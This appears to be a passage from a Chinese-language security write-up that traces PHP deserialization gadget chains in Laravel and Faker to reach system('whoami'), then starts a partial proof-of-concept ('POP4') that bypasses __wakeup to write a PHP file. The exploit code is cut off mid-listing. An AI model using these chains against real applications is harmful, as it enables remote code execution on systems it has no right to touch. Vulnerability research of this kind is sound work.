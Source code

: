 接下来进入PendingBroadcast的destruct方法，也就是之前见到过的gadget了

```
public function __destruct()
{
    $this->events->dispatch($this->event);
}
```

参数均可控来到Generator的call方法

```
public function __call($method, $attributes)
{
    return $this->format($method, $attributes);
}
```

跟进format方法

```
public function format($format, $arguments = [])
{
    return call_user_func_array($this->getFormatter($format), $arguments);
}
```

`$arguments`是`$this->event`的值，`$format`是`$this->events`的值（dispatch），跟进getFormatter方法

![image-20220720174745080](images/16.png)

只要存在$`this->formatters["dispatch"]`就直接返回值，那为system就行了

那直接调用`system('whoami')`命令执行了

# POP4

其实也不是什么新链子，都是对wakeup的一个绕过，只贴个POC就是了

```
<?php

namespace Faker {
    class Generator
    {
        protected $providers = [];
        protected $formatters = [];
        function __construct()
        {
            $this->formatter = "register";
            $this->formatters = 9999;
        }
    }
}

namespace Illuminate\Routing {
    class PendingResourceRegistration
    {
        protected $registrar;
        protected $name;
        protected $controller;
        protected $options = [];
        protected $registered = false;
        function __construct()
        {
            $this->registrar = new \Faker\Generator();
            $this->name = "./laravel.php";
            $this->controller = "<?php phpinfo();";
```